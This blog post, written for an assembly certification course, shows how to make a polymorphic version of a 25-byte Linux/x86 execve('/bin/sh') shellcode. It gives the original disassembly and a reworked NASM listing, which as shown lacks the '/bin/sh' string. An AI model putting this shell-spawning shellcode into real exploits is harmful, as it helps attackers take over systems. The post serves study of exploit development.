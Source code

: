 ```yaml
---
layout: post
title: Assignment 6 - Polymorphic shellcodes
categories: [re,exploit]
tags: [slae, osce]
fullview: false
comments: true
---
```

# Assignment #6
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

We have already seen a [great example of polymorphic encoding](https://marcosvalle.github.io/re/exploit/2018/08/25/shikata-ga-nai.html) when we decided to take a look at Shikata-Ga-Nai. Nevertheless, it's time to see how can we create a polymorphic version of the following 3 shellcodes.

All the source codes can be compiled using:

	nasm -f elf32 shellcode.s -o shellcode.o
	ld -m elf_i386 shellcode.o -o shellcode

# Shellcode 1: Linux/x86 - execve(/bin/sh) - 25 bytes
The original version can be found [here](http://shell-storm.org/shellcode/files/shellcode-585.php). It is interesting because the author used the [JMP/CALL/POP](https://marcosvalle.github.io/osce/2018/05/06/JMP-CALL-POP-technique.html) technique.

```
0:  eb 0b                   jmp    0xd
2:  5b                      pop    ebx
3:  31 c0                   xor    eax,eax
5:  31 c9                   xor    ecx,ecx
7:  31 d2                   xor    edx,edx
9:  b0 0b                   mov    al,0xb
b:  cd 80                   int    0x80
d:  e8 f0 ff ff ff          call   0x2
12: 2f                      das
13: 62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
16: 2f                      das
17: 73 68                   jae    0x81
```

Modified source code:

```
section .text
	global _start

_start:

	jmp short two

one:
	pop    ebx
	xor    eax,eax
	cdq    
	xchg   ecx,eax
	mov    al,0xb
	int    0x80
two:
	call one
```